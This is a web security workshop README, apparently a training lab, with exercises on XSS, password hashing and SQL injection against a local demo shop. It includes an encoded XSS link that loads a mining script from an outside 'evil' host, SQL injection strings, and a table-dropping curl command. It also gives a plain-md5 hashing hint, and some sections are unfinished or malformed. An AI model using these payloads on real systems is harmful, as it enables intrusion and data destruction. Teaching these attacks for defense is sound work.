 # Safe Web Programming Workshop

A quick intro to a few common web vulnerabilities & easy ways to prevent them.

![](https://memegenerator.net/img/instances/31629044.jpg)


## Plot

You are the proud owner of best-ecomm-ever.com, the most successful web site ... TBD
In the past few days, you received tons of complaints from users who allegedly "were hurt" from "viruses from your site".

You don't believe them of-course (there are no viruses at your site..) but your attorney suggested you to take your site offline until you resolve those issue.

So.. you decided to take your site offline, download your code base, and to prove to each and every "allegedly hurt" user how wrong he is.      

## Some technical details
 
All your site code base available at this repo. The site was written with the state of the art technology using microservices architecture - TBD ...
```
|-services
 | |-serviceName
 | |-|-client
 | | |-server
 | | |-database
```

All the microservices can be run using the `run.sh` script:

```bash
./run.sh 
```

## Ben

You have received a complain from someone named Ben. Ben claims that after clicking on a facebook ad that promised him "a free jacket" from your site, his computer started to work very slow and his firewall began to throw warnings "like crazy". 

This is the link Ben was directed to - https://best-ecomm-ever.com/thank-you-page?name=QmVuPHNjcmlwdCB0eXBlPSd0ZXh0L2phdmFzY3JpcHQnIHNyYz0iaHR0cHM6Ly91cmlnNTUud2l4c2l0ZS5jb20vZXZpbC9fZnVuY3Rpb25zLWRldi9taW5pbmciIGFzeW5jICA%2BPC9zY3JpcHQ%2B
Ben asks you to solve this issue ASAP, otherwise, he sues you.

#### step number 1
Run your site locally and get to http://localhost:8081/thank-you-page?name=QmVuPHNjcmlwdCB0eXBlPSd0ZXh0L2phdmFzY3JpcHQnIHNyYz0iaHR0cHM6Ly91cmlnNTUud2l4c2l0ZS5jb20vZXZpbC9fZnVuY3Rpb25zLWRldi9taW5pbmciIGFzeW5jICA%2BPC9zY3JpcHQ%2B

Can you see something off at the page?

<details>
  <summary>Hint 1</summary>
  Take a look at the console.
</details>
<details>
  <summary>Hint 2</summary>
  Take a look at the network tab and at the site's DOM.
</details>

#### step number 2
Ok. Something is off here. Lets understand why it happens and examine the service.
Lets check the `thank-you-page` service code and understand what breaks the page.

<details>
  <summary>Hint 1</summary>
  How do we know TBD ..
</details>

#### step number 3
Fix TBD...

## Ana

You have received a complain from someone named Ana, who is super upset at you. She said she checks her email address twice a week at https://haveibeenpwned.com/ and yesterday she found her best-ecom-ever password there! 
Ana said that your database was leaked and wants you to commit that the new password she updates would never leak again. 

#### Exploring the database
It's time to make the way you save passwords more secure. Each service persists its data in a local sqllite DB, so lets explore the `login service` database. Open the terminal and type the following commands:
```{bash}
cd services/login/server/dal
sqlite3
.open db.sqlite
.schema user
select * from user limit(1);
```

We are going to abuse the database a bit, if you want to revent your changes just delete the `db.sqlite` file and run the login service (the db would be autogenerated).

- What is the current structure of the users table? 
- What is the way we authenticate users today? 
- Food for thoughts - is there a way to still be able to authenticate users without saving their passwords?

#### Making the database secure again 

Let's change the way we authenticate users (we don't need to actually migrate the users table at the DB, your DBA will take care of it later).
Instead of saving the password, lets save only its HASH!
Do that by applying changes ONLY to `security/services/login/server.js` , add one line (or more) between lines 14 - 15 and edit line 41!

You can run your log-in server and make sure your fix works by using http://localhost:8082/login-page.

A challenge for real pro - overcome [rainbow tables](https://www.geeksforgeeks.org/understanding-rainbow-table-attack/) by salting the passwords!

<details>
  <summary>Hint 1</summary>
   passwrod => md5(passwrod)
</details>
<details>
  <summary>Hint 2</summary>
   when saving TBD ...
</details>

## Nadir Hackerman

You have received an anonymous tip from someone named Nadir Hackerman, who said that your login page is exposed to sql injection attack and highly recommand you to fix that before someone sues you.

#### Sql injection attack (?)
You remember vaguely what sql injection attack is from your C.S lesson at the elementary school, so in case you need to refresh your memory take a quick look at [this video](https://www.youtube.com/watch?v=FwIUkAwKzG8) that explains what sql injection is.

Sounds spooky, how much damage could you get? run your log-in server, enter to http://localhost:8082/login-page and try using sql-injection in order to:
- Pick an existing user from the db / create a new user (using sign up or in any other way), then change the password of this user using sql injection.
- Delete all your users passowrds .
- Drop your user table. 
```
# example of editing 
UPDATE table SET password = something WHERE email = email;

# example of editing 
DROP table user;
```
<details>
  <summary>Hint 1</summary>
   try name = "' or 1=1 --
</details>

#### Fix the issue from the client side
Lets block the bad guys. 
- Try to add an `pattern` [tag](https://www.w3schools.com/tags/att_input_pattern.asp) to the email & password inputs at the `client.html` template, that would prevent sql injection from happening. Make sure that the attacks you performed at the previous questions do not work anymore. 
- Can you sleep well now, knowing that your login is secure from sel injections?

<details>
  <summary>Yes</summary>
   Run your log-in service, open your terminal and run the following command: 
   ```
   curl 'http://localhost:8082/signup' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw "email=bla@shtut.com&password=1'); DROP TABLE user; --" \
  --compressed
   ```

   Now you can move to the "No" section, we won't tell anyone you opened the `Yes` one.
</details>
<details>

<details>
  <summary>Yes</summary>
   You are right, validation at the client side is never enough (the attacker can use proxy, cUrl, or even to modify the client code locally). Apply the validations also at the server side both for authenticating and signing up.
   After you finish, try to attack the server again (by modifying the client code locally, using fetch or any other way) and make sure you're saty safe (and nobody sues you..)
</details>
<details>
